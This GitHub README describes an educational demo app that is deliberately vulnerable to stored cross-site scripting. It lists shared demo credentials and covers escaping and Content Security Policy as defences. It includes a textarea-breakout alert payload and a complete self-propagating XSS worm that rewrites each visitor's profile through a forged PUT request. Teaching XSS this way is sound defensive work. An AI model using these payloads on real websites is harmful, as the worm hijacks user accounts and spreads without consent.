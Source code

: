 # Cross-site scripting demonstration

This web application is only used for XSS demonstration, hence its modest appearance

Login -> Edit user -> put the code below in the "Introduction", this will cause an alert to show up everytime a user visit your profile

## Usage

Clone this project to your device and run these command in its root directory:

```npm
npm install
npm run dev
```

Open a browser, access localhost:8080, you can log in from there. There are 5 available accounts: hao, thoi, dinh, john, bucky. All of them have the same password which is 123. You can edit or add account in [database/usersData.json](database/usersData.json), this project doesn't have a register account or change password feature simply because it isn't needed for its purpose (demonstrate XSS).

## XSS in action

Login -> Edit user -> Put the code below in the "Introduction" textarea and press "Done". This will cause an alert to show up every time a user visits your profile. Of course, you can do more than just show a harmless alert, but it's what attackers do when they examine if a website is vulnerable to XSS.

```html
</textarea> <script>alert("hehe");</script>
<!-- Put the </textarea> right before the malicious javascript to end the previous textarea tag. You can see it using the developer tool. -->
```

This code below will cause an alert to show up every time a user visits your profile, but also copy its entire code to that user's "Introduction", making it a self-propagating worm

```html
</textarea> 
<script id="worm">
    alert("hehe");  // the main attacking code

    // ----- the self-propagating code -----
    var headerTag = '<script id="worm">';
    var ownCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>"; // splitting up the tag to prevent the worm code from ending here
    var wormCode = "</textarea>" + headerTag + ownCode + tailTag;
    window.onload = function () {
        var updatedUser = {
            introduction: wormCode
        };

        var xhr = new XMLHttpRequest();
        xhr.open("PUT", "/editUser", true);
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.send(JSON.stringify(updatedUser));
    };
    // ----- the self-propagating code -----
</script>
```

***Where the XHR come from***: Use the developer tool (turn on Preserve log) to see the request sent when pressing the "Done" button in the editUser page (the button that can change a user's profile). You can see that a request called "editUser" is sent, if it's cancelled, you can right click it and choose Copy -> Copy as fetch and paste it somewhere to examine. It's method is PUT and body is {"introduction":"..."}, so we construct a similar XHR to send to the server. Obviously we can see it in the server's source code but I'm talking in the attacker's perspective, who doesn't have the source code (maybe).

## Prevention

### Escape dynamic content

Go to [controllers/userController.js line 40](controllers/userController.js#L40) (the editUser PUT request), uncomment 5 comments below, this will escape every {&, <, >, ", '} to its entity encoding {&amp, &lt, &gt, &quot, &#039} in the received content. This way, every javascript in the received content become useless.

### Content Security Policy

Content Securiy Policy is the standard solution to many web security problem. It restrict what can be executed, performed in a web page so malicious codes have a harder time doing anything.

Go to [controllers/userController.js line 15](controllers/userController.js#L15) and [line 67](controllers/userController.js#L67), uncomment each 4 lines, to set Content Securiy Policy to the HTTP Header before sending the response.

Or you can go to [resources/editUser.html](resources/editUser.html) and [resources/viewUser.html](resources/viewUser.html), uncomment each one's meta tag and it will have the same effect as above.

The CSP option that we saw is:

```CSP
Content-security-policy: default-src 'self'
```

`default-src` means for every `src` directives that are absent, it will use this one's value instead.\
`self` means that the web pages can only use resources which come from its own server.

See more at <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy>

## Reference

Web Security for Developers: Real Threats, Practical Defense\
<https://seedsecuritylabs.org/Labs_20.04/Web/Web_XSS_Elgg/>
